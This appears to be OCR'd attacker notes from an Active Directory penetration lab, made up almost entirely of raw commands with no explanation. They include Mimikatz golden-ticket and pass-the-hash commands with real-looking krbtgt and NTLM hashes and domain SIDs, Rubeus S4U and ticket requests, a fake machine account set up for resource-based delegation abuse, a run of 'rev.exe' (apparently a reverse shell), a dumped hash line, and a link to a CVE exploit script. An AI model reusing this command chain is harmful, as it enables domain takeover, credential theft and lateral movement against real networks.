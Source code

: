 e5079e8e9d934d1d0df292e2f510229f dev$
S-1-5-21-1416445593-394318334-2645530166

S-1-5-21-1416445593-394318334-2645530166-1108 

.\m.exe "kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-2291914956-3290296217-2402366952 /rc4:cba2ed22077aa56ae957bcf43a8d82f8 /service:krbtgt /target:dev.ADMIN.OFFSHORE.COM /sids:S-1-5-21-1416445593-394318334-2645530166-1108 /ticket:C:\dev.kirbi" "exit"

.\r.exe asktgs /ticket:C:\dev.kirbi /service:CIFS/DC02.DEV.ADMIN.OFFSHORE.COM /dc:DC02.DEV.ADMIN.OFFSHORE.COM /ptt

Get-ADGroup -Filter 'SID -ge "S-1-5-21-1416445593-394318334-2645530166-1000"' -Server dev.ADMIN.OFFSHORE.COM

https://github.com/blackarrowsec/advisories/blob/master/2019/CVE-2019-14666/CVE-2019-14666.py

mgmt01 Administrator:500:aad3b435b51404eeaad3b435b51404ee:971bc1ac6d2344c4b42107976e0972dc:::

New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

mimikatz.exe "sekurlsa::pth /user:administrator /ntlm:a569f80ccd9fda0ea5e749d20aa80657 /domain:client.offshore.com /run:c:\rev.exe" "exit"

Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:ldap/DC02.dev.ADMIN.OFFSHORE.COM /ptt

kerberos::golden /user:administrator /domain:dev.admin.offshore.com /sid:S-1-5-21-1416445593-394318334-2645530166 /krbtgt:9404def404bc198fd9830a3483869e78 /sids:S-1-5-21-1216317506-3509444512-4230741538-519 /ptt

kerberos::golden /user:administrator /domain:ADMIN.OFFSHORE.COM /sid:S-1-5-21-1216317506-3509444512-4230741538 /krbtgt:ea9112d4beb759907688c9e267eff246 /sids:S-1-5-21-524867371-2016665888-3240400722-4110 /ptt

dir \\dc04.client.offshore.com\c$

R.exe s4u /user:ms02$ /rc4:dc7a49c0c36399ae87f3de623ebab985 /impersonateuser:administrator /msdsspn:cifs/DC04.CLIENT.OFFSHORE.COM /altservice:ldap /ptt